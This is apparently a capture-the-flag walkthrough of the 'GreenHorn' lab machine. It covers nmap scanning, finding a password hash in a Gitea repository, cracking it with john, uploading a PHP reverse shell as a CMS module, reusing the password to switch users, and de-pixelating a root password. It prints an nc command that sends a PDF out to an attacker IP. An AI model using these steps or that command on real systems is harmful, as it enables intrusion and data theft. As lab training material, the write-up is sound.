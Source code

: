 

# CVSS 3.1 Score:10.0 (High)



### POC: 

I added `greenhorn.htb` to my hosts file.

Start with a basic scan using the command:

`nmap -sC -sV <IP ADRESS>`

`Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-01 13:31 EDT`
`Nmap scan report for greenhorn.htb (10.10.11.25)`
`Host is up (0.042s latency).`
`Not shown: 996 closed tcp ports (conn-refused)`
`PORT     STATE SERVICE VERSION`
`22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)`
`| ssh-hostkey:` 
`|   256 57:d6:92:8a:72:44:84:17:29:eb:5c:c9:63:6a:fe:fd (ECDSA)`
`|_  256 40:ea:17:b1:b6:c5:3f:42:56:67:4a:3c:ee:75:23:2f (ED25519)`
`80/tcp   open  http    nginx 1.18.0 (Ubuntu)`
`|_http-generator: pluck 4.7.18`
`|_http-trane-info: Problem with XML parsing of /evox/about`
`| http-cookie-flags:` 
`|   /:` 
`|     PHPSESSID:` 
`|_      httponly flag not set`
`|_http-server-header: nginx/1.18.0 (Ubuntu)`
`| http-title: Welcome to GreenHorn ! - GreenHorn`
`|_Requested resource was http://greenhorn.htb/?file=welcome-to-greenhorn`
`| http-robots.txt: 2 disallowed entries` 
`|_/data/ /docs/`
`3000/tcp open  ppp?`
`| fingerprint-strings:` 
`|   GenericLines, Help, RTSPRequest:` 
`|     HTTP/1.1 400 Bad Request`
`|     Content-Type: text/plain; charset=utf-8`
`|     Connection: close`
`|     Request`
`|   GetRequest:` 
`|     HTTP/1.0 200 OK`
`|     Cache-Control: max-age=0, private, must-revalidate, no-transform`
`|     Content-Type: text/html; charset=utf-8`
`|     Set-Cookie: i_like_gitea=28fd3ff78614e003; Path=/; HttpOnly; SameSite=Lax`
`|     Set-Cookie: _csrf=_jmeqwQLwRtbXp-DdjMGWTeoAPI6MTcyMjUzMzUxNTM0Nzc0NTg0OQ; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax`
`|     X-Frame-Options: SAMEORIGIN`
`|     Date: Thu, 01 Aug 2024 17:31:55 GMT`
`|     <!DOCTYPE html>`
`|     <html lang="en-US" class="theme-auto">`
`|     <head>`
`|     <meta name="viewport" content="width=device-width, initial-scale=1">`
`|     <title>GreenHorn</title>`
`|     <link rel="manifest" href="data:application/json;base64,eyJuYW1lIjoiR3JlZW5Ib3JuIiwic2hvcnRfbmFtZSI6IkdyZWVuSG9ybiIsInN0YXJ0X3VybCI6Imh0dHA6Ly9ncmVlbmhvcm4uaHRiOjMwMDAvIiwiaWNvbnMiOlt7InNyYyI6Imh0dHA6Ly9ncmVlbmhvcm4uaHRiOjMwMDAvYXNzZXRzL2ltZy9sb2dvLnBuZyIsInR5cGUiOiJpbWFnZS9wbmciLCJzaXplcyI6IjUxMng1MTIifSx7InNyYyI6Imh0dHA6Ly9ncmVlbmhvcm4uaHRiOjMwMDAvYX`
`|   HTTPOptions:` 
`|     HTTP/1.0 405 Method Not Allowed`
`|     Allow: HEAD`
`|     Allow: HEAD`
`|     Allow: GET`
`|     Cache-Control: max-age=0, private, must-revalidate, no-transform`
`|     Set-Cookie: i_like_gitea=77b36d9374a96fa1; Path=/; HttpOnly; SameSite=Lax`
`|     Set-Cookie: _csrf=1_4kaR4JlNAkYnsmReDtYOIGyGI6MTcyMjUzMzUyMjA3MDUzNDAxMg; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax`
`|     X-Frame-Options: SAMEORIGIN`
`|     Date: Thu, 01 Aug 2024 17:32:02 GMT`
`|_    Content-Length: 0`
`8000/tcp open  http    SimpleHTTPServer 0.6 (Python 3.10.12)`
`1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :`
`SF-Port3000-TCP:V=7.94SVN%I=7%D=8/1%Time=66ABC689%P=x86_64-pc-linux-gnu%r(`
<.............>
`SF:lain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Req`
`SF:uest");`
`Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel`

`Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .`
`Nmap done: 1 IP address (1 host up) scanned in 136.32 seconds`

We have three open ports:

- 80/tcp open http
- 22/tcp open ssh
- 3000/tcp open ppp?

On port 80, we found a website we can visit.

By enumeration, we found a login page:

![[Pasted image 20240801202355.png]]


We attempted to enumerate the admin password but found there is a lock for brute force attempts.


![[Pasted image 20240801202728.png]]


![[Pasted image 20240801202835.png]]


We then checked port 3000:

`http://greenhorn.htb:3000/`

![[Pasted image 20240801202955.png]]



![[Pasted image 20240801203107.png]]

![[Pasted image 20240801203143.png]]



![[Pasted image 20240801203256.png]]



![[Pasted image 20240801203501.png]]

By exploring, we found admin files.

We checked the login check files and found the password stored in the `$ww` variable. We located the password hash and determined it was using the SHA-512 hash algorithm. Using `john` and `rockyou.txt`, we cracked the password to `iloveyou1`.

We then logged in to the admin panel.


![[Pasted image 20240801205631.png]]

Next, we navigated to the "Manage Modules" section and installed a module. We created a reverse shell PHP file, zipped it, and uploaded it. By listening on port 1111, we gained access to the system.

![[Pasted image 20240801210023.png]]

![[Pasted image 20240801210441.png]]

![[Pasted image 20240801210609.png]]
We made the shell more interactive and searched for files owned by the user "junior". We attempted to switch users using the previously found password and successfully accessed the user files.

![[Pasted image 20240801212100.png]]

![[Pasted image 20240801212200.png]]

Finally, we checked other files in the user folder and found a PDF document named "Using OpenVAS.pdf". We used `nc` to transfer the file and discovered the root password, which was blurred. Using the tool `depix` to de-pixelate the image, we retrieved the root password and gained root access.

`junior@greenhorn:~$ nc 10.10.16.102 1234 < 'Using OpenVAS.pdf'  
`nc 10.10.16.102 1234 < 'Using OpenVAS.pdf'`

`nc -lvp 1234 > 'Using OpenVAS.pdf'`  
`Listening on 0.0.0.0 1234`  
`Connection received on greenhorn.htb 46338``
``
![[Pasted image 20240801220319.png]]


![[Pasted image 20240801220008.png]]